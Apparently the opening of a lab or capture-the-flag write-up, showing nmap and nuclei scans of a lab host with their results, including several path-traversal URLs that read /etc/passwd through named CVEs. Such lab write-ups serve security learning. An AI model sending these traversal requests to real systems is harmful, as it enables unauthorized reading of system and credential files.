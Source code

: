 ## Information gathering

### Scanning

#### nmap

Command:
```sh
nmap -sC -sV 10.10.191.125 
```

Results:
```sh
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 55:41:5a:65:e3:d8:c2:4f:59:a1:68:b6:79:8a:e3:fb (RSA)
|   256 79:8a:12:64:cc:5c:d2:b7:38:dd:4f:07:76:4f:92:e2 (ECDSA)
|_  256 ce:e2:28:01:5f:0f:6a:77:df:1e:0a:79:df:9a:54:47 (ED25519)
8080/tcp open  http            Apache Tomcat 8.5.93
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.93
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 O
```

#### nuclei

Command:
```sh
nuclei -target 10.10.191.125:8888
```

Results:
```sh
[CVE-2021-43831] [http] [high] http://10.10.191.125:8888/file/../../../../../../../../../../../../../../../../../../etc/passwd [path="/etc/passwd"]
[CVE-2023-39141] [http] [high] http://10.10.191.125:8888/../../../../etc/passwd
[generic-linux-lfi] [http] [high] http://10.10.191.125:8888/./../../../../../../../../../../etc/passwd [paths="/./../../../../../../../../../../etc/passwd"]
[bullwark-momentum-lfi] [http] [high] http://10.10.191.125:8888/../../../../../../../../../../../../../etc/passwd
[gsoap-lfi] [http] [high] http://10.10.191.125:8888/../../../../../../../../../etc/passwd
[jinfornet-jreport-lfi] [http] [high] http://10.10.191.125:8888/jreport/sendfile/help/../../../../../../../../../../../../../../etc/passwd
[CVE-2017-14849] [http] [high] http://10.10.191.125:8888/static/../../../a/../../../../etc/passwd
[http-missing-security-headers:permissions-policy] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:referrer-policy] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:clear-site-data] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:strict-transport-security] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:x-frame-options] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:x-content-type-options] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://10.10.191.125:8888
[http-missing-security-headers:content-security-policy] [http] [info] http://10.10.191.125:8888
[CVE-2015-3337] [http] [medium] http://10.10.191.125:8888/_plugin/head/../../../../../../../../../../../../../../../../etc/passwd
[CVE-2021-43495] [http] [high] http://10.10.191.125:8888/asd/../../../../../../../../etc/passwd
```